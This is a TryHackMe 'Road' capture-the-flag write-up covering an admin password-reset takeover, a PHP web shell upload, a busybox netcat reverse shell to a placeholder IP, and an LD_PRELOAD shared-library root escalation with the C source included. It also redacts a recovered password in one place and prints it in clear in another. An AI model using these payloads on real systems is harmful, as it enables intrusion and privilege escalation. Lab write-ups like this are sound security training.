



# Road - TryHackMe Writeup

**Difficulty:** Medium  
**TL;DR:** Admin Account TakeOver → Upload Web shell & Revese Shell → Discover `webdeveloper` password → Privilege Escalation via `LD_PRELOAD`
-----------------------------
## Target
- Machine: `road.thm`
- Data: `2025-10-3`
- Environment: TryHackMe / CTF
-----------------------------

## Steps
1. Initial scan:

```bash
nmap -sV -sC -Pn -T4 road.thm

22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

2. Directory discovery:

```bash
gobuster dir -u http://road.thm/ -w /usr/share/wordlists/dirb/big.txt -t 40

/assets               (Status: 301) [Size: 313]
/index.html           (Status: 200) [Size: 19607]
/phpMyAdmin           (Status: 301) [Size: 317]
/server-status        (Status: 403) [Size: 277]
/v2                   (Status: 301) [Size: 309]
```

`v2` page showing login panel
I Created new account to discovery


In `profile` page:



admin account :`admin@sky.thm`


3. Admin Account Takeover :

There was a password reset page at:
`http://road.thm/v2/ResetUser.php`
Using Burp Suite, I intercepted the POST request to the password reset functionality.

I modified the username in the POST request from the current user to `admin@sky.thm`



The application allowed the password change for the admin account without proper authorization checks.

successfully logged in as `admin@sky.thm` using the new password set through the manipulated request.

4. Web Shell Upload

if we take a look at the source code of the `porfile.php` page we notice :
```html
<!-- /v2/profileimages/ -->
```
the loction of the directory that hold the profile images:
`http://road.thm/v2/profileimages/`

We can upload php files too. 

Uploaded `cmd.php` web shell containing:
```php
<?php system($_GET['cmd']); ?>
```
This allows remote command execution via the cmd parameter, enabling full system control through the web server.

Tested the web shell by accessing:
`http://road.thm/v2/profileimages/cmd.php?cmd=id`


The command execution was successful, confirming remote code execution capability through the uploaded web shell.

5. Reverse Shell

Accessed the web shell to execute a reverse shell command:
`http://road.thm/v2/profileimages/cmd.php?cmd=busybox nc [YOUR_IP] 4444 -e bash `


Successful Connection & Shell Stabilization:
```bash
└─$ nc -lnvp 4444
listening on [any] 4444 ...


python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@sky:/var/www/html/v2/profileimages$ id

uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
Successfully obtained a reverse shell as `www-data` user, establishing initial access on the target system.

## User flag

Now we escalate to the `webdeveloper` user

Let's see what files belong to this user: 

```bash
www-data@sky:/var/www/html/phpMyAdmin$ find / -type f -user webdeveloper 2>/dev/null 
/home/webdeveloper/.bashrc
/home/webdeveloper/.mysql_history
/home/webdeveloper/.sudo_as_admin_successful
/home/webdeveloper/.bash_logout
/home/webdeveloper/.profile
/home/webdeveloper/user.txt
/usr/bin/mongoimport
/usr/bin/mongostat
/usr/bin/mongofiles
/usr/bin/mongorestore
/usr/bin/mongodump
/usr/bin/bsondump
/usr/bin/mongotop
/usr/bin/mongoexport
/usr/share/doc/mongodb-database-tools/README.md
/usr/share/doc/mongodb-database-tools/LICENSE.md
/usr/share/doc/mongodb-database-tools/THIRD-PARTY-NOTICES
```


We can access MongoDB without authentication:
```bash

mongo

>show dbs
> show dbs

admin   0.000GB
backup  0.000GB
config  0.000GB
local   0.000GB


> use backup
ususe backup
switched to db backup

> show tables
shshow tables
collection
user

> db.user.find()
dbdb.user.find()
{ "_id" : ObjectId("60ae2661203d21857b184a76"), "Month" : "Feb", "Profit" : "25000" }
{ "_id" : ObjectId("60ae2677203d21857b184a77"), "Month" : "March", "Profit" : "5000" }
{ "_id" : ObjectId("60ae2690203d21857b184a78"), "Name" : "webdeveloper", "Pass" : "[REDACTED]!@#" }
{ "_id" : ObjectId("60ae26bf203d21857b184a79"), "Name" : "Rohit", "EndDate" : "December" }
{ "_id" : ObjectId("60ae26d2203d21857b184a7a"), "Name" : "Rohit", "Salary" : "30000" }

> exit
```
We found `webdeveloper's` password in the MongoDB database: `[REDACTED]!@#`

Switch to the `webdeveloper` user and retrieve the user flag:

```bash
su webdeveloper
Password: BahamasChapp123!@#

webdeveloper@sky:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Root flag

Privilege Escalation

```bash
webdeveloper@sky:~$ sudo -l
Matching Defaults entries for webdeveloper on sky:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    env_keep+=LD_PRELOAD

User webdeveloper may run the following commands on sky:
    (ALL : ALL) NOPASSWD: /usr/bin/sky_backup_utility
webdeveloper@sky:~$ ls -la /usr/bin/sky_backup_utility
-rwxr-xr-x 1 root root 16704 Aug  7  2021 /usr/bin/sky_backup_utility
```
The user can run /usr/bin/sky_backup_utility as root with `LD_PRELOAD` environment variable preserved, allowing library injection attacks.

### SUID PATH Environmental Variable :

We create a malicious shared library that contains code executed automatically when loaded via `LD_PRELOAD`:

1. Create Malicious Shared Library :

```bash
cat > shell.c << 'EOF'
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
    unsetenv("LD_PRELOAD");
    setresuid(0,0,0);
    system("/bin/bash -p");
}
EOF
```

2. Compile the Library :

```bash
gcc -fPIC -shared -nostartfiles -o shell.so shell.c
```
3. Execute the Exploit :

```bash

sudo LD_PRELOAD=./shell.so /usr/bin/sky_backup_utility

id

# uid=0(root) gid=0(root) groups=0(root)
```
4. root.txt

```bash
cat /root/root.txt 

# [REDACTED]


```
